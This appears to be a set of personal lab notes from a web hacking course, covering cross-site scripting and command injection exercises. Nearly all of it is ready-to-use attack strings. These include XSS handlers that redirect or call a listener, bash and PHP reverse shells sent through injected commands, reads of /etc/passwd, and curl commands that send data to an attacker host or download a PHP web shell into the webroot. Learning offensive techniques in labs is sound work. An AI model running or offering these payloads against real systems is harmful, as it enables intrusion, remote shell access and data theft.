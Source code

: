 example: *xss0x01 lab*
`<img src=# onerror="window.location.href='https://archlinux.org'"/>` redirects user to another location
`<img src=# onerror="fetch('http://192.168.122.142:8000', { method: 'GET' })"/>` makes the call to the listener
`<img src=# onerror="fetch('http://192.168.122.142:8000', { method: 'GET', body: '  ' })"/>` : didn't work!


# Command Injection
#command_injection
abuse `eval` in javascript and `system` in php

#curl #get_response_code
`curl -I -s -L $url | grep -i http | grep -oE '\d{3}'`:  only get response status code

## lab 0x01
Attacks:
`; bash -i >& /dev/tcp/<ip>/<port> 0>&1 #`
`; whoami #`
`; cat /etc/passwd #`

`; which php #`
`; /usr/local/bin/php -r '$s=fsockopen("<attacker_ip>",<port>);exec("/bin/bash -i <&3 >&3 2>&3");' #`

## lab 0x02
A technique for 
Attacks:
- Find php path: `/usr/local/bin/php`
`https://tcm-sec.com && B=$(which php) && curl http://<ip>:<port> -X POST -d "$B" #`
- Find curl path: `/usr/bin/curl`
```
https://tcm-sec.com && B=$(which curl) && curl http://<ip>:<port>/?`which curl` #
```
- Build payload:
`cp /usr/share/webshells/laudanum/php/php-reverse-shell.php ./rev.php`
and update the file to point to the attacker's listening endpoint
- Upload rev.php to the server
`https://tcm-sec.com && curl http://192.168.122.142:8030/rev.php -o /var/www/html/rev.php`
- set up the listener on the attacker's machine
- Run the php file
`https://tcm-sec.com && /usr/local/bin/php /var/www/html/rev.php`
or 
navigate to `http://<server>/rev.php`

## lab 0x03
[payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#awk)
Reconn:
- `100)^2) + ((-200)^2)); system("which bash") }' #`    `/bin/bash`
- `100)^2) + ((-200)^2)); system("which php") }' #`   `/usr/local/bin/php`
- `100)^2) + ((-200)^2)); system("which curl") }' #`   `/usr/bin/curl`
